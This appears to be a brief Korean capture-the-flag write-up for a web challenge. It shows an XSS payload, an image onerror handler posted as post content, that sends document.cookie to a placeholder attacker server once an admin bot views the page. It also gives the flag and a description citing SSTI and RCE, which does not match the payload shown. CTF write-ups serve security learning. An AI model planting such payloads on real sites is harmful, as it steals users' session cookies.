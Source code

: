 # 라업
- post 추가하는 엔드포인트에서 content 파라미터로 아래와 같은 패이로드를 넣고, 공격 서버에서 리스닝

```
<img src="nonexistent.jpg" onerror="new Image().src = '[공격 서버 주소]/?cookie=' + document.cookie;">
```

- 그 상태에서 봇 동작시키면 cookie값을 얻어 올 수 있음



# 플래그
K0{Wh3r3_d1d_my_s3cr3t_k3y?}

# 설명
ssti 취약점을 통한 어플리케이션 레벨의 데이터 탈취 및 RCE